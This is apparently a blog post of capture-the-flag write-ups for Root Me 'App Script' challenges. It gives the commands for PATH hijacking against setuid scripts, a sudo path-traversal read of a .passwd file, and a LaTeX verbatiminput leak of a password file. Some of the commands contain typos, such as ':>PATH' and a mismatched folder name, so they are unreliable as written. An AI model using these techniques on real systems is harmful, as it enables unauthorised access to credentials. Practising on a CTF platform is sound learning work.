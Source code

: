 ```yaml
---
layout: post
title: 'Root Me | App Script - Very Easy'
permalink: /ctf/rootme/app-script/very-easy/
---
```


# Bash - System 1
We need to copy cat into our folder, then change the name to "ls" and change the path to that folder.
Now the script will read it as cat.
{% highlight bash %}
> mkdir /tmp/zeropio
> cp /bin/cat /tmp/zeropio
> mv /tmp/zeropio/cat /tmp/zeropio/ls
> export PATH=/tmp/zeropio:>PATH
> ./ch11
{% endhighlight %}

# Sudo - weak configuration
We need to see all the sudo options (with -l). Then we can see we need to use the cracked user, who can only do a cat to ./notes/ .
{% highlight bash %}
> sudo -l
> sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
{% endhighlight %}

# Bash - System 2
As we did in the first, we need to use nano instead of cat because the script have the options -al.
{% highlight bash %}
> mkdir /tmp/zeropio
> cp /bin/nano /tmp/zeropio
> mv /tmp/zeropio/nano /tmp/zeropio/ls
> export PATH=/tmp/zeropio2:>PATH
> ./ch12
{% endhighlight %}

# LaTex Input
We will create a **main.tex** file with the following content:
{% highlight bash %}
\documentclass{article}
\usepackage{verbatim}

\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
{% endhighlight %}

We will generate a **main.pdf** file:
{% highlight bash %}
> ./setuid-wrapper /tmp/main.tex
{% endhighlight %}

 Then we will just get the pdf:
{% highlight bash %}
 > scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/tmp.pIzF7UG6do/main.pdf .
 {% endhighlight %}